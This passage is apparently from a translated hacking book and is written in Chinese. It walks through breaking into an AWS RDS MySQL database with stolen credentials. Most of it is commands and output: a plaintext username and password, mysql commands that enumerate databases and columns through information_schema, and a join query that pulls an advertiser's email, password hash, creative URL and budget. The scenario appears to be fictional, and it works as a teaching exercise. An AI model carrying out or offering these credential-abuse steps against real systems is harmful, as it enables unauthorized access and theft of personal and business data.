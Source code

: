 瞧，广告活动数据库凭证是 `api-core-rw` / `zO5jLWlgrG7AS6l`。

### 渗透数据库

让我们从集群中启动数据库连接，以防 RDS 实例受到某些入口防火墙规则的保护。我们不确定要查询哪个数据库后端（RDS 支持 MySQL、Aurora、Oracle、SQL Server 等）。由于 MySQL 是最受欢迎的引擎，我们先尝试 MySQL：

```
shell> **export DBSERVER=984195.cehmrvc73g1g.eu-west-1.rds.amazonaws.com**

shell> **apt install -y mysql-client**
shell> **mysql -h $DBSERVER -u api-core-rw -pzO5jLWlgrG7AS6l -e "Show databases;"**

+--------------------+
| Database           |
+--------------------+
| information_schema |
| test               |
| campaigns          |
| bigdata            |
| taxonomy           |
--snip--
```

我们成功进入了。

定位 Gretsch Politico 的广告活动需要一些基本的 SQL 知识，这里我就不再详细讲解了。我们从列出服务器上的每一列、表和数据库开始。这些信息可以在`information_schema`数据库的`COLUMN_NAME`表中轻松找到：

```
shell> **mysql -h $DBSERVER -u api-core-rw -pzO5jLWlgrG7AS6l -e\**
**"select COLUMN_NAME,TABLE_NAME, TABLE_SCHEMA,TABLE_CATALOG from information_schema.columns;"**
+----------------------+--------------------+--------------+
| COLUMN_NAME          | TABLE_NAME         | TABLE_SCHEMA |
+----------------------+--------------------+--------------+
| counyter             | insertions         | api          |
| id_entity            | insertions         | api          |
| max_budget           | insertions         | api          |
`--snip--`
```

我们精挑细选了几列和表，这些很可能存有广告活动数据，然后通过几个`select`语句和`join`操作查询这些信息。这应该能给我们提供广告活动列表、创意 URL 和每个广告活动的预算——所有我们所需要的信息。我们确保再次使用我们偷来的凭证：

```
shell> **mysql -h $DBSERVER -u api-core-rw -pzO5jLWlgrG7AS6l campaigns -e\**
**"select ee.name, pp.email, pp.hash, ii.creative, ii.counter, ii.max_budget\**
**from insertions ii\**
**inner join entity ee on ee.id= ii.id_entity\**
**inner join profile pp on pp.id_entity= ii.id_entity\**
**where ee.name like '%gretsch%'"**

---
Name : Gretsch Politico
Email: eloise.stinson@gretschpolitico.com
Hash: c22fe077aaccbc64115ca137fc3a9dcf
Creative: s4d.mxrads.com/43ed90147211803d546734ea2d0cb/
12adad49658582436/vid/720/88b4ab3d165c1cf2.mp4
Counter: 16879
Maxbudget: 250000
---
`--snip--`
```
